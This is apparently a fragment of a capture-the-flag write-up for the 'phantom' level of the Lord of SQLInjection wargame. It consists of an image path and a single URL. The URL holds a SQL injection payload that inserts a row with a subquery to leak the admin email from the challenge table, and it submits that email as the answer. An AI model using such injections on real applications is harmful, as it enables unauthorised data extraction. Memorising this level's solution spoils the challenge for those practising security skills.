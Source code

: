# LOS2 - phantom

https://los.rubiya.kr/chall/phantom_e2e30eaf1c0b3cb61b4b72a932c849fe.php?joinmail=aa%27),(NULL,%27121.170.116.100%27,(select%20email%20from%20prob_phantom%20d%20where%20no=1))%20--%20-&email=admin_secure_email@rubiya.kr